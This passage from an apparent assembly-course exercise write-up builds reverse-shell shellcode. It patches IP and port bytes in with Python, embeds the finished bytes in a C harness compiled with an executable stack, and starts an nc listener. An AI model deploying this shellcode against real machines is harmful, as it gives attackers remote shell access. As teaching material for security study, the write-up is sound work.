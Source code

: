 ```
cleaned_hex_port = hex_port_value.replace("0x", "")
first_port_val = "\\x" + cleaned_hex_port[:2]
second_port_val = "\\x" + cleaned_hex_port[2:]

print "1st port: %s" % first_port_val
print "2nd port: %s" % second_port_val
print ""

print "Ammending shellcode..."
shellcode = shellcode.replace("[i4]", fourth_ip_asm)
shellcode = shellcode.replace("[i3]", third_ip_asm)
shellcode = shellcode.replace("[i2]", second_ip_asm)
shellcode = shellcode.replace("[i1]", first_ip_asm)

shellcode = shellcode.replace("[p2]", second_port_val)
shellcode = shellcode.replace("[p1]", first_port_val)

print "Final Shellcode:"
print shellcode
```

Running our Python wrapper once again produces NULL byte free shellcode that can be placed directly into our C script, allowing us to compile and inject the new payload:

```
root@kali:~/Documents/slae32/exercise_2# cat shell.c
#include<stdio.h>
#include<string.h>

unsigned char code[] = "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc7\x31\xc0\x66\xb8\x6a\x01\x89\xfb\x31\xc9\x51\xc6\x04\x24\x1\xc6\x44\x24\x03\x7f\x51\x66\x68\x23\x2d\x66\x6a\x02\x89\xe1\x31\xd2\xb2\x10\xcd\x80\x31\xc0\xb0\x3f\x89\xfb\x31\xc9\xcd\x80\x31\xc0\xb0\x3f\x89\xfb\xb1\x01\xcd\x80\x31\xc0\xb0\x3f\x89\xfb\xb1\x02\xcd\x80\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe1\x50\x89\xe2\x31\xc0\xb0\x0b\xcd\x80";

int main(void)  {
    printf("Shellcode Length:  %d\n", strlen(code));
    int (*ret)() = (int(*)())code;
    ret();
}
```

We can finally compile our C program with the required arguments:

```
root@kali:~/Documents/slae32/exercise_2# gcc -fno-stack-protector -z execstack shell.c -o shell
```

We are now ready to try out our reverse shell. First we set up a listener on the specified port:

```
root@kali:~/Documents/slae32/exercise_2# nc -nlvp 9005
listening on [any] 9005 ...
```
